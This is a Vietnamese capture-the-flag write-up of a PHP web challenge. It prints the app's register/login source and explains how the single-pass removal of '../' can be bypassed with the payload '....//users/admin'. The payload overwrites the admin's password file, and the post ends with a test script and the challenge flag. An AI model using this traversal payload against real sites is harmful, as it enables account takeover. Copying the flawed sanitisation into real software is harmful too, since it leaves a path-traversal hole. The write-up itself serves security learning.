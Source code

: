 ## No SQL Injection
### 100 points

Đây là bài đầu tiên mình làm trong kì CTF này. Sáng hôm thi mới biết là phải vào mạng công ty mới làm bài được, vì quá phấn khích nên mình đã bùng học chạy hộc bơ lên công ty để thi. Mở scoreboard lên nghĩ quái lạ, bài này 100 points, nằm đầu tiên trong list bài mà lại chưa ai động, nên mình quyết định làm luôn. Cảm giác là người giải được đầu tiên bao giờ nó cũng vui hơn :)).

### Đề bài:
```
Trên đỉnh gò xưa
http://nosqlinjection.ctf2019.yeuchimse.com
Challenge Oreo sẽ được mở khi bạn giải được bài này
```

### Giao diện của bài:

![][view]

### Lời giải
Tạo 1 tài khoản, đăng nhập thử:

![][logged-in]

```
Bạn có biết khác biệt giữa bạn và admin là gì không?
Là admin thì có flag, còn bạn thì không. Ha ha ha -_-
```

Ok, vậy chắc mục tiêu chính của bài này là làm sao vào được admin rồi. 

Thấy trong bài có source nên mình nghía thử luôn:

<details>
  <summary>Source code</summary> 
  
  ```php
  <?php

  if (isset($_GET['view_source'])) {
      highlight_file(__FILE__);
      die();
  }
  ?>

  <?php include_once 'header.php' ?>
  <?php include_once 'config.php' ?>

  <?php

  function get_absolute_path($path)
  {
      $unix = substr($path, 0, 1) === '/';

      $path = str_replace(array('/', '\\'), DIRECTORY_SEPARATOR, $path);
      $parts = array_filter(explode(DIRECTORY_SEPARATOR, $path), 'strlen');
      $absolutes = array();
      foreach ($parts as $part) {
          if ('.' == $part) continue;
          if ('..' == $part) {
              array_pop($absolutes);
          } else {
              $absolutes[] = $part;
          }
      }

      $final_path = implode(DIRECTORY_SEPARATOR, $absolutes);
      if ($unix) {
          $final_path = '/' . $final_path;
      }

      return $final_path;
  }

  if ($_SERVER['REQUEST_METHOD'] == 'POST') {
      if ($_GET['action'] == 'register' && isset($_POST['username']) && isset($_POST['password']) && !empty(trim($_POST['username']))) {
          $username = trim($_POST['username']);
          $username = str_replace(array('../', '..\\'), '', $username); // ^_^

          $password = $_POST['password'];
          $user_dirs = glob(getcwd() . '/users/*');
          foreach ($user_dirs as $user_dir) {
              $user_dir_name = basename($user_dir);
              if ($user_dir_name == $username) {
                  $error = 'Tên tài khoản đã được sử dụng.';
                  break;
              }
          }

          if (!isset($error)) {
              $user_dir = get_absolute_path(getcwd() . '/users/' . $username);
              $base_dir = get_absolute_path(getcwd() . '/users');
              if (strpos($user_dir, $base_dir) === false) {  // \~(*o*)~/
                  $error = 'Tên tài khoản không hợp lệ.';
              } else {
                  if (!isset($error)) {
                      if (!file_exists($user_dir) && !mkdir($user_dir)) {
                          $error = 'Không tạo được thư mục.';
                      } else {
                          $password_file = $user_dir . '/' . PASSWORD_FILENAME;
                          if (file_put_contents($password_file, md5($password)) !== false) {

                              $_SESSION['username'] = $username;

                              header('Location: index.php');
                              die();
                          } else {
                              $error = 'Không ghi được file.';
                          }
                      }
                  }
              }
          }

      } else if ($_GET['action'] == 'login' && isset($_POST['username']) && isset($_POST['password'])) {
          $username = $_POST['username'];
          $password = $_POST['password'];

          $user_dir = get_absolute_path(getcwd() . '/users/' . $username);
          if (strpos($user_dir, getcwd()) == -1) {
              $errror = 'Tên tài khoản không hợp lệ.';
          }

          if (!isset($error)) {
              $password_file = $user_dir . '/' . PASSWORD_FILENAME;
              if (file_exists($password_file)) {
                  $password_md5 = file_get_contents($password_file);
                  if (md5($password) == $password_md5) {
                      // với tài khoản admin, sau mỗi lần đăng nhập thành công sẽ đổi password để đảm bảo an toàn
                      if ($username == 'admin') {
                          $new_password = md5($password . SECRET);
                          file_put_contents($password_file, $new_password);
                      }

                      $_SESSION['username'] = $username;

                      header('Location: index.php');
                      die();
                  } else {
                      $error = 'Thông tin đăng nhập không chính xác.';
                  }
              } else {
                  $error = 'Thông tin đăng nhập không chính xác.';
              }
          }
      }
  } else {
      if (isset($_GET['action']) && $_GET['action'] == 'logout') {
          unset($_SESSION['username']);

          header('Location: auth.php');
          die();
      }
  }
  ?>

      <div class="container">
          <div class="row">
              <div class="col-lg-6 col-lg-offset-3">
                  <div class="panel panel-login">
                      <div class="panel-heading">
                          <div class="row">
                              <div class="col-lg-6">
                                  <a href="#" class="active" id="login-form-link">Đăng nhập</a>
                              </div>
                              <div class="col-lg-6">
                                  <a href="#" id="register-form-link">Đăng ký</a>
                              </div>
                          </div>
                          <hr>
                      </div>
                      <div class="panel-body">
                          <div class="row">
                              <div class="col-lg-12">
                                  <form id="login-form" action="auth.php?action=login" method="post" role="form"
                                        style="display: block;">
                                      <div class="form-group">
                                          <input type="text" name="username" id="username" tabindex="1"
                                                 class="form-control"
                                                 placeholder="Tên tài khoản" value="">
                                      </div>
                                      <div class="form-group">
                                          <input type="password" name="password" id="password" tabindex="2"
                                                 class="form-control" placeholder="Mật khẩu">
                                      </div>
                                      <div class="form-group">
                                          <div class="row">
                                              <div class="col-sm-6 col-sm-offset-3">
                                                  <input type="submit" name="login" id="login-submit" tabindex="4"
                                                         class="form-control btn btn-login" value="Đăng nhập">
                                              </div>
                                          </div>
                                      </div>
                                  </form>
                                  <form id="register-form" action="auth.php?action=register" method="post"
                                        role="form" style="display: none;">
                                      <div class="form-group">
                                          <input type="text" name="username" id="username" tabindex="1"
                                                 class="form-control"
                                                 placeholder="Tên tài khoản" value="">
                                      </div>
                                      <div class="form-group">
                                          <input type="password" name="password" id="password" tabindex="2"
                                                 class="form-control" placeholder="Mật khẩu">
                                      </div>
                                      <div class="form-group">
                                          <div class="row">
                                              <div class="col-lg-6 col-lg-offset-3">
                                                  <input type="submit" name="register" id="register-submit"
                                                         tabindex="4" class="form-control btn btn-register"
                                                         value="Đăng ký">
                                              </div>
                                          </div>
                                      </div>
                                  </form>
                              </div>
                          </div>

                          <?php if (isset($error)) { ?>
                              <div class="row">
                                  <div class="col-lg-12 text-center alert alert-danger">
                                      <?php echo $error ?>
                                  </div>
                              </div>
                          <?php } ?>
                      </div>
                  </div>

                  <div class="panel panel-login text-center">
                      <div style="font-size: 16px; color: dodgerblue; font-weight: bold"><a
                                  href="auth.php?view_source=1" target="_blank">Mã nguồn</a>
                      </div>
                  </div>
              </div>
          </div>
      </div>

  <?php include_once 'footer.php' ?>
  ```
</details>

Trông có vẻ tức mắt vì nhiều for với if quá, nhưng nếu bạn chịu khó đọc một chút thì sẽ thấy chỉ có đúng 2 phần tương ứng với 2 tính năng thôi. Sau đây là flow của các tính năng:

+ Đăng ký
1. Lấy username và password từ post data ($POST), loại bỏ các string `../`, `..\\` khỏi username
2. Check xem tên tài khoản đã có trên hệ thống chưa (ở đây hệ thống dùng các thư mục có tên tương ứng với username trong path /users)
3. Nếu tên tài khoản đã có thì trả về thông báo "Tên tài khoản đã được sử dụng.", không thì qua bước 4
4. Nối username với đường dẫn tới thư mục /users ($base_dir) và parse lại bằng hàm `get_absolute_path` (hàm này có tác dụng format lại đường dẫn và xử lý relative path trong đường dẫn của bạn. Ví dụ `/path/abc/users/../` sẽ bị replace thành `/path/abc`, sau đó check lại xem có $base_dir trong đường dẫn vừa format không. Nếu không có $base_dir thì trả về "Tên tài khoản không hợp lệ.", có thì qua bước 5. Đoạn này chắc để chống injection để thoát ra khỏi thư mục /users.
5. Tạo password file và ghi lên đó `md5($password)`. Gán session.

+ Đăng nhập
1. Lấy $username và $password từ post data ($POST)
2. Check xem tài khoản có hợp lệ không (giống bước 4 ở trên), nếu không thì trả về "Tên tài khoản không hợp lệ.", có thì qua bước 3
3. Lấy password hash từ password file tương ứng với username và check hash xem có giống md5($password) không. Nếu giống thì gán session, ngoài ra nếu là admin thì đổi password thành `md5($password . SECRET)`

+ Ngoài ra còn có phần logout tuy nhiên phần này chẳng có gì ngoài unset session nên mình không nói thêm

Trong khi đọc hiểu và phân tích tính năng thì mình thấy trong source có mấy comment `\~(*o*)~/`, `^_^` ở các phần check đường dẫn rất là ẩn ý. Mà cũng dễ thấy phần đầu tiên lọc bỏ `../` và `..\\`, nhưng phần dưới lại chống không cho dùng relative path để ra khỏi /users, chứng tỏ bài này có cách bypass qua đoạn check kia.

Từ đó mình nghĩ ra cách làm bài này là làm sao dùng tính năng đăng ký và path traversal để ghi đè password của mình lên password của admin. Sau đó đăng nhập vào lấy flag.
Nghĩ tí là ra ngay payload `....//users/admin` thôi. Các bạn xem đoạn code test này của mình cho dễ hiểu

![][test-code]

<details>
  <summary>Test code</summary> 
  
  ```php
  <?php
  function get_absolute_path($path)
  {
      $unix = substr($path, 0, 1) === '/';

      $path = str_replace(array('/', '\\'), DIRECTORY_SEPARATOR, $path);
      $parts = array_filter(explode(DIRECTORY_SEPARATOR, $path), 'strlen');
      $absolutes = array();
      foreach ($parts as $part) {
          if ('.' == $part) continue;
          if ('..' == $part) {
              array_pop($absolutes);
          } else {
              $absolutes[] = $part;
          }
      }

      $final_path = implode(DIRECTORY_SEPARATOR, $absolutes);
      if ($unix) {
          $final_path = '/' . $final_path;
      }

      return $final_path;
  }
  
  $username = 'test';

  $user_dir = get_absolute_path(getcwd() . '/users/' . $username);

  echo get_absolute_path($user_dir) . PHP_EOL;

  $username = '....//users/admin';
  $username = str_replace(array('../', '..\\'), '', $username);

  $user_dir = get_absolute_path(getcwd() . '/users/' . $username);

  echo get_absolute_path($user_dir);
  ```
</details>

Flag:
![][flag]
```
flag{you_cant_have_sql_injection_if_you_dont_use_sql}
```

[view]: assets/NO_SQL_INJECTION/view.png
[logged-in]: assets/NO_SQL_INJECTION/logged-in.png
[test-code]: assets/NO_SQL_INJECTION/test-code.png
[flag]: assets/NO_SQL_INJECTION/flag.png